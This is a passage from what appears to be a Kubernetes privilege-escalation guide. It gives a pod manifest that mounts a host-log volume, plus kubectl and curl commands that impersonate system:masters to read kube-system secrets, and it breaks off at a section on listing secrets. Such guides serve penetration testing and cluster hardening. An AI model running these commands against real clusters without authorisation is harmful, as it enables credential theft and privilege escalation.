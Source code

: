 ```yaml
spec:
  storageClassName: manual
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
  name: task-pv-pod
spec:
  volumes:
    - name: task-pv-storage-vol
      persistentVolumeClaim:
        claimName: task-pv-claim-vol
  containers:
    - name: task-pv-container
      image: ubuntu:latest
      command: ["sh", "-c", "sleep 1h"]
      volumeMounts:
        - mountPath: "/hostlogs"
          name: task-pv-storage-vol
```

### **Impersonating privileged accounts**

With a [**user impersonation**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation) privilege, an attacker could impersonate a privileged account.

Just use the parameter `--as=<username>` in the `kubectl` command to impersonate a user, or `--as-group=<group>` to impersonate a group:

```bash
kubectl get pods --as=system:serviceaccount:kube-system:default
kubectl get secrets --as=null --as-group=system:masters
```

Or use the REST API:

```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Listing Secrets

The permission to **list secrets could allow an attacker to actually read the secrets** accessing the REST API endpoint:
